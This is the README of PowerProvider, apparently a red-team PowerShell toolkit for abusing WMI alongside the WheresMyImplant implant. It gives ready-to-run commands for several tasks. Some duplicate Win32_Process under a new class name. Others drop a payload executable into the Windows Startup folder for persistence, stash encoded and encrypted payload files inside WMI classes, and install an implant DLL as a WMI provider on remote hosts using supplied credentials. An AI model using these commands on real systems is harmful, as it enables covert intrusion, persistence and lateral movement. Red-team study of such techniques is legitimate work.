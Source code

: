 ## PowerProvider

PowerProvider: A toolkit to manipulate WMI. This toolkit provides functionality to:
* Duplicate Classes
* Create static classes for file storage
* Remote Install WMI Providers

Primarily used in conjunction with WheresMyImplant - https://github.com/0xbadjuju/WheresMyImplant/

### Methods
* **Class Duplication**
  * Invoke-WMIDuplicateClass
    * Invoke-WMIDuplicateClass -TargetClassName Win32_Process -DuplicateClassName Win32_Create -ComputerName $ComputerName -Credential $Credential

* **File Transfer**
  * Invoke-WMIUpload
    * $Destination = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
    * Invoke-WMIUpload -PayloadPath C:\Payload.exe -Destination $Destination -PayloadName Payload.exe -ComputerName  $ComputerName -Credential $Credential
    * Invoke-WMIUpload -PayloadPath C:\Payload.exe -Inject -PayloadName Payload.exe -ComputerName  $ComputerName -Credential $Credential
  * Invoke-WMIRemoteExtract
    * $Destination = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
    * Invoke-WMIRemoteExtract -PayloadName Payload.exe -Destination $Destination -ComputerName  $ComputerName -Credential $Credential

* **File Storage**
  * New-WMIFSClass
    * New-WMIFSClass -ComputerName $ComputerName -Credential $Credential
  * ConvertTo-Base64
    * $File = ConvertTo-Base64 -FileName C:\Payload.exe -Inject
  * Invoke-InsertFileThreaded
    * Invoke-InsertFileThreaded -EncodedText $File -FileName Payload.exe -ComputerName $ComputerName -Credential $Credential -Verbose
  * Invoke-RetrieveFile
    * $File = Invoke-RetrieveFile -FileName C:\Payload.exe -ComputerName $ComputerName -Credential $Credential
  * ConvertFrom-Base64
    * $FileBytes = ConvertFrom-Base64 -ComputerName $ComputerName -Credential $Credential
  * ConvertTo-EncryptedText
    * $EncryptedString = ConvertTo-EncryptedText -PlaintextString $File
  * ConvertFrom-EncryptedText
    * $File = ConvertFrom-EncryptedText -EncryptedString $EncryptedString
    
* **Provider Install**
  * Install-WMIProviderInstallUtil
    * Install-WMIProviderInstallUtil -LibraryLocation C:\Windows\System32\wbem\WheresMysImplant.dll -ComputerName $ComputerName -Credential $Credential
  * Install-WMIProviderPowerShell
    * Install-WMIProviderPowerShell -LibraryLocation C:\Windows\System32\wbem\WheresMysImplant.dll -ComputerName $ComputerName -Credential $Credential
  * Install-WMIProviderExtention
    * Install-WMIProvider -LocalLibraryLocation C:\WheresMyImplant.dll -ComputerName $ComputerName -Credential $Credential
  * Uninstall-WMIProviderExtention
    * Uninstall-WMIProvider -ProviderName WheresMyImplant -ClassName Win32_Implant C:\WheresMy -ComputerName $ComputerName -Credential $Credential
